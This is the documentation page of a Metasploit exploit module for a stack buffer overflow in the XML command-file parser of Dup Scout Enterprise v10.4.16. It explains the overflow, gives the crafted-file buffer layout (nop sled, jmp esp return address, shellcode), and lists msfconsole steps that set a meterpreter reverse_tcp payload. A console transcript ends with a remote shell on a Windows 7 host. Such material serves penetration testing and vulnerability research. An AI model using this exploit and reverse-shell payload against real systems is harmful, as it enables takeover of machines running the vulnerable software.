 ## Overview

This module exploits a buffer overflow in libpal.dll that is used by [Dup Scout Enterprise v10.4.16](http://www.dupscout.com/setups/dupscoutent_setup_v10.4.16.exe). The buffer overflow occurs during a call to the SCA_XmlParser::GetToken function when a user-supplied Command file with a crafted name attribute is imported to the Dup Scout application. The SCA_XmlParser::GetToken function is passed a heap pointer as an argument, which was created by the SCA_XmlParser::LoadXmlFile function and contains data from the user-supplied Command file, and a pointer to a stack buffer that was created in the SCA_XmlParser::ParseXmlElement function. While parsing the name attribute, the SCA_XmlParser::GetToken function copies from the heap buffer to the stack buffer until a single quote (to match name=', or a double quote to match name=") is found or until it finishes reading from the allocated heap buffer.

## Verification Steps

- [ ] Install Dup Scout Enterprise on target system
- [ ] `./msfconsole`
- [ ] `use exploit/windows/fileformat/dupscout_xml`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] `use exploit/multi/handler`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] From the DupScout Enterprise menu select Command -> Import Command
- [ ] Select file generated by metasploit
- [ ] Get a session

## Exploiting the Vulnerability

The vulnerability can be exploited when the size of the name attribute is greater than 1560 bytes.

Note: The allocated stack buffer size is 1564 bytes but the first four bytes are filled with `\xff` during execution of the SCA_XmlParser::GetToken function.

Since the stack buffer was allocated as a local variable for the SCA_XmlParser::ParseXmlElement function, the program's control flow isn't taken over until the return of the SCA_XmlParser::ParseXmlElement function even though the return value is overwritten during execution of the SCA_XmlParser::GetToken function.

The format of the crafted Command file will be:

```
buf = "<?xml ?><a name='"
buf << make_nops(1560)   # Fill up the stack buffer
buf << addr_of_jmp_esp   # overwrite the return address for SCA_XmlParser::ParseXmlElement
buf << make_nops(16)     # account for ret 10h in SCA_XmlParser::ParseXmlElement
buf << inst1             # LEA EAX, [ESP+14h] # Prepare EAX to jump to payload
buf << inst2             # JMP EAX # Jump to our desired location
buf << make_nops(14)     # Fill past possibly corrupted location
buf << payload           # Location that is jumped to
```

Note: The last make_nops will offset the location of the payload. The offset is included to account for writes to the stack buffer that occur when whitespace characters are included in the Command file. By offsetting the payload, the number of bad characters can be reduced to just the single or double quote characters. 

## Example Execution

This exploit was tested on Windows 7 SP1 x64.

```
msf5 > use exploit/windows/fileformat/dupscout_xml
msf5 exploit(windows/fileformat/dupscout_xml) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/dupscout_xml) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(windows/fileformat/dupscout_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /home/msfdev/.msf4/local/msf.xml
msf5 exploit(windows/fileformat/dupscout_xml) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.22.222.120:4444 
[*] Sending stage (179779 bytes) to 172.22.222.122

meterpreter > getuid
Server username: .\pwnduser
meterpreter > sysinfo
Computer        : .
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
